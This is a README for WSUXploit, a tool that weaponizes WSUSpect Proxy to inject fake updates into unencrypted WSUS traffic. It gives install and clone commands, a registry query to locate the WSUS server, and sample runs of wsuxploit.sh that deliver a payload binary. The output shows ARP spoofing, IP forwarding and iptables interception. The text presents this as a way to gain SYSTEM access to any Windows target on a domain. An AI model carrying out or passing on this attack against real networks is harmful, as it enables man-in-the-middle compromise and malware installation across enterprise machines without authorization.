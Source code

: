 # WSUXploit

Written by Marcio Almeida to weaponize the use of [WSUSpect Proxy](https://github.com/ctxis/wsuspect-proxy/) created by Paul Stone and Alex Chapman in 2015 and public released by [Context Information Security](http://www.contextis.com)

## Summary

This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.
It is based on the WSUSpect Proxy application that was introduced to public on the Black Hat USA 2015 presentation, 'WSUSpect – Compromising the Windows Enterprise via Windows Update'

Please read the White Paper and the presentation slides listed below:

- White paper: http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf
- Slides: http://www.contextis.com/documents/162/WSUSpect_Presentation.pdf

## Prerequisites and Installation

You'll need install some programs used by this attack. You can do this by running:
```
sudo apt-get install samba dsniff iptables python
```

PS: Kali Linux builds already have all the before mentioned dependencies.

WSUSpect Proxy requires the Python Twisted library. You can install it by running:
```
pip install twisted
```

Clone this repository and the WSUSpect Proxy repository. You can do it by running:
```
# clone WSUXploit repository
git clone https://github.com/pimps/wsuxploit.git

# enter on wsuxploit directory
cd wsuxploit

# clone WSUSpect Proxy repository
git clone https://github.com/ctxis/wsuspect-proxy.git
```

You're ready to go now :-)

## Usage

First things first...

Discover the WSUS address inside of the network that you're attacking and verify if it uses http protocol. If yes, you can use this exploit to get SYSTEM access to any windows target inside of that domain.

If you already have access to a Domain Machine, you can easily get the address of the WSUS server executing the following command:

```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

You should see a response similar to that:

```
WUServer   REG_SZ  http://10.1.1.1:8535/
```

After confirm that the network you're attacking uses HTTP for Windows Update, you're good to go.

```
root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
Usage:
./wsuxploit.sh <TARGET_IP> <WSUS_IP> <WSUS_PORT> <BINARY_PATH>

Example:
./wsuxploit.sh 192.168.0.101 10.0.0.85 80 /tmp/payload.exe

root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 192.168.0.101 10.1.1.1 8535 /tmp/beacon.exe
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
[*] Preparing exploit files...
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Running WSUSpect proxy...
2017-06-30 09:46:59+1000 [-] Log opened.
2017-06-30 09:46:59+1000 [-] InterceptingProxyFactory starting on 9090
2017-06-30 09:46:59+1000 [-] Starting factory <intercepting_proxy.InterceptingProxyFactory instance at 0xb650ce8c>

```

Wait for the Auto-Update requests, they happen by default every 23h and for the Important Update installs, they happen by default every 24h.
